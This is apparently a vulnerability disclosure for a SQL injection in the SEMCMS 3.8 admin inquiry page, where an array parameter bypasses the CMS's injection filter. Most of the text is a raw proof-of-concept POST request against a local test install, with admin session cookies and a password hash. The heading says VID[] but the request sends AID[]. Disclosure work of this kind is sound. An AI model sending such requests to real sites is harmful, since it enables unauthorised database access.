 # SEMCMS SQLINJECT

---

* Project official：http://www.sem-cms.com
* project address:   http://www.sem-cms.com/xiazai.html

---

## VID[] SQLINJECT

>URL: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
![Alt text](/SEMCMS3.8/img/1.png)
>Debug：Defense module is class.phpmailer.php and function inject_check_sql
![Alt text](/SEMCMS3.8/img/2.png)
>But VID[] didn't handle it

* POST:
```
POST /123/sOWj5B_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
Host: 127.0.0.1
Content-Length: 24
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/123/sOWj5B_Admin/SEMCMS_Inquiry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MEIQIA_EXTRA_TRACK_ID=1F7WZdk3rwHIzKqUfkrNaZ9t1EE; _ga=GA1.1.1842664860.1547715044; UM_distinctid=169c55686280-0636c606d502d3-36664c08-1fa400-169c556862b2e4; CNZZDATA1256162028=1606185978-1553793969-%7C1553793969; CNZZDATA1707573=cnzz_eid%3D987595238-1554794879-http%253A%252F%252F127.0.0.1%252F%26ntime%3D1554913098; PHPSESSID=n75nrqp26757vguhhgd4mlptd4; __51cke__=; __tins__4329483=%7B%22sid%22%3A%201556088941568%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201556090843766%7D; __51laig__=3; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Connection: close

languageID=&AID%5B%5D=3
```
>verification:
![Alt text](/SEMCMS3.8/img/3.png)
